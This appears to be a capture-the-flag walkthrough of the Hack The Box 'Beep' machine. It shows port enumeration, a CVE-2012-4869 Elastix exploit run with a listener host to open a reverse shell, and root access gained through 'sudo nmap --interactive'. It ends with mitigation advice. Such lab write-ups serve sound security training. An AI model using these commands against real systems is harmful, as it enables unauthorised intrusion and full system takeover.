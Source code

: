 ```yaml
---
title: Beep
date: 2025-05-09
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, CVE-2012-4869, suid-nmap-privesc] 
image: beep.webp
media_subpath: /assets/img/posts/2025-05-09-beepHTB/
---
```


## Introduction

In this walkthrough, I discovered that the target machine had **multiple open ports**, and navigating to port **80**, I found a web interface for **Elastix**. I identified the application version and searched for publicly known exploits. I found **CVE-2012-4869**, a known vulnerability in Elastix, and used it to gain **initial shell access** to the system.

During post-exploitation enumeration, I found that the user had **sudo permissions to run Nmap**. I leveraged this misconfiguration by using Nmap’s interactive mode to **escalate privileges and gain a root shell** on the target.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22 (SSH)

- Version - OpenSSH 4.3 (protocol 2.0)

We usually skip SSH.

### Port 25 (SMTP)

- Version - Postfix smtpd

```bash
nmap -p25 -Pn --script smtp-open-relay $IP
```

![image.png](image%203.png)

### Port 110/995 -  143/993 (POP3/IMAP)

```bash
telnet $IP 143
```

![image.png](image%204.png)

No public exploits either.

![image.png](image%205.png)

### Port 111 (RPC)

```bash
rpcclient -U'%' $IP
```

Cannot connect to server.  Error was NT_STATUS_CONNECTION_REFUSED

### Port 3306 (MySQL)

```bash
mysql -h $IP -u anonympous -p --ssl=0
```

ERROR 1130 (HY000): Host '10.10.14.27' is not allowed to connect to this MySQL server

## Web

### Port 80

Searching for public exploits for Apache:

```bash
searchsploit apache 2.2.3
```

![image.png](image%206.png)

We can give it a shot later.

Trying to visit the website

![image.png](image%207.png)

It is the same for Google Chrome.

To workaround this we are gonna downgrade minimum supported TLS version of Firefox.

To modify the minimum TLS version in Firefox, follow these steps:

1. Open a new tab in Firefox.Enter "about:config" in the address bar and hit Enter/Return.
2. In the search box located above the list, enter "security.tls.version.min".
3. Locate the preference with the name "security.tls.version.min" and modify its value to ‘1’.

![image.png](image%208.png)

### Port 443

Same happened as port 80.

### Port 10000

I have found RCE exploit for another version of the application we can try it later.

[Webmin 1.920 - Remote Code Execution](Ehttps://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/47293&ved=2ahUKEwjr3aXx5paNAxWqzwIHHaqmBDQQFnoECAkQAQ&)usg=AOvVaw1aUklSmhEM9FkBgtFVcMuK

[Webmin - Brute Force / Command Execution](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/705&ved=2ahUKEwjr3aXx5paNAxWqzwIHHaqmBDQQFnoECBkQAQ&usg=AOvVaw2FUOvI_hsTraaat98DzwmT)

## Exploitation

Visiting website we are presented with `elastix` login page:

![image.png](image%209.png)

I found the following 2 public exploits:

[Elastix 2.2.0 - 'graph.php' Local File Inclusion](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/37637&ved=2ahUKEwjSg6zC65aNAxUmhv0HHYZYJ5UQFnoECAkQAQ&usg=AOvVaw0C7zWocP_ZyGlydXJBgZ5H)

[FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/18650&ved=2ahUKEwjSg6zC65aNAxUmhv0HHYZYJ5UQFnoECBwQAQ&usg=AOvVaw1Fl6Eaut3-0Z0raVn4YiYN)

[Elastix 2.2.0 Local File Inclusion Exploit - CVE-2012-4869](https://github.com/cyberdesu/Elastix-2.2.0-CVE-2012-4869/blob/main/README.md)

```bash
python3 exploit.py "https://10.10.10.7/" --LHOST "10.10.14.27" --LPORT 9001
```

Now we got a shell.

![image.png](image%2010.png)

Make the shell interactive:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](image%2011.png)

## Privilege Escalation

Checking for sudo privileges we can see that we can execute `nmap` as root:

![image.png](image%2012.png)

[GTFOBins-nmap](https://gtfobins.github.io/gtfobins/nmap/#sudo)

```
sudo nmap --interactive
nmap> !sh
```

![image.png](image%2013.png)

## Mitigation

- **Update Elastix** to a version that is not affected by CVE-2012-4869 or consider replacing it with a supported alternative.
- **Restrict or audit sudo permissions**: Avoid allowing users to run tools like Nmap with sudo, as they can be exploited to gain root access.
- Implement **principle of least privilege** and use tools like `sudoers` and `sudo -l` to carefully control command access.
- Monitor system logs for unusual sudo command executions or privilege escalations.
